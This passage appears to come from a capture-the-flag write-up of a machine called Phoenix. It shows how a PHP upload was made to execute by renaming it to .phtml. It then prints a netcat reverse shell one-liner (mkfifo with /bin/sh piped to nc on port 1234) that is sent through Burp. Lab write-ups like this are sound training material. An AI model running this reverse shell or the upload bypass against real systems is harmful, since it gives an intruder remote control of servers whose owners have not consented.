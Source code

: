 ![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Phoenix/20.png)

But we see that it doesn't interpret the PHP code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Phoenix/21.png)

We try to rename it to *.phtml*, run the exploit again and now we see that it works.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Phoenix/22.png)

##### Reverse shell code:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

We listen to **netcat**, take the request to **Burp**, encode the code and send the request.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Phoenix/23.png)
